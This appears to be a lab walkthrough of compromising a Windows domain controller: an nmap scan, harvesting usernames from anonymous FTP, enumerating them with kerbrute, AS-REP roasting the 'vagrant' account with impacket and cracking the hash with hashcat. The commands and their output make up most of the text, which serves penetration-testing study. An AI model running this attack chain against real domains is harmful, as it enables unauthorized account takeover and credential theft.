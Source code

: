 # 0. Sources

|||
|---|---|
|[YouTube](https://www.youtube.com/watch?v=YO3y1KRcbi0)|[Download](https://drive.google.com/file/d/1UfnW8X2qzMGTAGK1N4D9_iWHUVYuEmLD/view)|

<details>
  <summary><h1>1. Nmap Scan</h1></summary>

```console
┌──(root㉿kali)-[~]
└─# nmap -p- -A 10.0.88.39
Starting Nmap 7.93 ( https://nmap.org ) at 2022-12-08 14:18 +08
Nmap scan report for 10.0.88.39
Host is up (0.0029s latency).
Not shown: 65507 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 01-10-22  02:39AM       <DIR>          Dinnie.Nikki
| 01-10-22  02:40AM       <DIR>          Dulci.Alanah
| 01-10-22  02:40AM       <DIR>          Lem.Emmalyn
| 01-10-22  02:40AM       <DIR>          Onida.Florence
| 01-10-22  02:40AM       <DIR>          Rakel.Bekki
|_01-10-22  02:35AM       <DIR>          vagrant
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-12-08 06:18:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds (workgroup: WINDOMAIN)
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: windomain.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-12-08T06:19:44+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=dc.windomain.local
| Not valid before: 2022-12-07T06:15:53
|_Not valid after:  2023-06-08T06:15:53
| rdp-ntlm-info:
|   Target_Name: WINDOMAIN
|   NetBIOS_Domain_Name: WINDOMAIN
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: windomain.local
|   DNS_Computer_Name: dc.windomain.local
|   DNS_Tree_Name: windomain.local
|   Product_Version: 10.0.14393
|_  System_Time: 2022-12-08T06:19:35+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49723/tcp open  msrpc         Microsoft Windows RPC
⋮
```

</details>

# 2. Finding a way in

The nmap scan found a FTP service with anonymous login allowed, there isn't any files in FTP at all, but this provides a list of usernames

☝️ **Usernames are important!** Although the FTP service had no data, having a list of usernames means you can use it to enumerate something else

## 2.1. Try AS-REP Roasting

The other ports such as `53`, `88`, `389`, `636`, `3268`, `3269`, etc shows that this is a Domain Controller and the domain name is `windomain.local`

Let's use the list of usernames to do AS-REP Roasting

### 2.1.1. Use kerbrute to find users with preauthentication disabled

```console
┌──(root㉿kali)-[~]
└─# kerbrute -users users.txt -domain windomain.local -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Stupendous (Expired password) => Dinnie.Nikki:
[*] Valid user => Dulci.Alanah
[*] Valid user => Lem.Emmalyn
[*] Valid user => Onida.Florence
[*] Valid user => Rakel.Bekki
[*] Valid user => vagrant [NOT PREAUTH]
```

### 2.1.2. Use GetNPUsers.py to get password hash

```console
┌──(root㉿kali)-[~]
└─# impacket-GetNPUsers windomain.local/vagrant -no-pass -dc-ip 10.0.88.39
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Getting TGT for vagrant
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:871beef48a411f845ebb1d8b04dd9c13$adbbc87ab91d710e562fff2d00b7936613250dad5f0bb468e77b3ef4264d6b3930556b866f4468a8243c3866e2757ced577870144b2afd4746a7fc90fcaf347807e5c50d34285528d3fa71abcdf46994dfa0c26831d0486d8b6cdd1bb8c33208e5eaa246ed75eba33d0f78a533b2760f5a230075a1f7edf73c6742737026a19e393ed411839693fb32dacf7323727214c84c5f905a9c8dea3eccafe0435454ace2a995bf017080883ae04d188dfe3dde47ef1c4c59281879f8b184b61a05278e2fd7bcba94239738c72ad27dfdf0a78efad21663d48b5cbbf7ea51848d0df834adc481c77791200f25947906389d5bfd3907
```

### 2.1.3. Use hashcat to crack the hash

```console
┌──(root㉿kali)-[~]
└─# hashcat -m 18200 as-rep.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
⋮
$krb5asrep$23$vagrant@WINDOMAIN.LOCAL:•••hash-truncated•••:vagrant

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
⋮
Started: Thu Dec  8 14:36:19 2022
Stopped: Thu Dec  8 14:36:48 2022
```
